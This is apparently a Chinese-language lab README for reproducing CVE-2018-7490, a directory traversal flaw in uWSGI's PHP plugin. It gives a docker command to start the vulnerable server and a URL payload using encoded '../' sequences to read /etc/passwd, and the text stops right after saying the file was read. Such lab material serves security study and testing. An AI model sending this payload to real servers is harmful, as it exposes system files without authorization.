

# uWSGI PHP 目录穿越漏洞（CVE-2018-7490）

uWSGI 是一款 Web 应用程序服务器，它实现了 WSGI、uwsgi 和 http 等协议，并支持通过插件来运行各种语言。

uWSGI 2.0.17 之前的 PHP 插件，没有正确的处理 `DOCUMENT_ROOT` 检测，导致用户可以通过 `..%2f` 来跨越目录，读取或运行 `DOCUMENT_ROOT` 目录以外的文件。

## 漏洞环境

运行存在漏洞的 uWSGI 服务器：

```
docker compose up -d
```

运行完成后，访问 `http://your-ip:8080/` 即可看到 phpinfo 信息，说明 uwsgi-php 服务器已成功运行。

## 漏洞复现

访问 `http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：


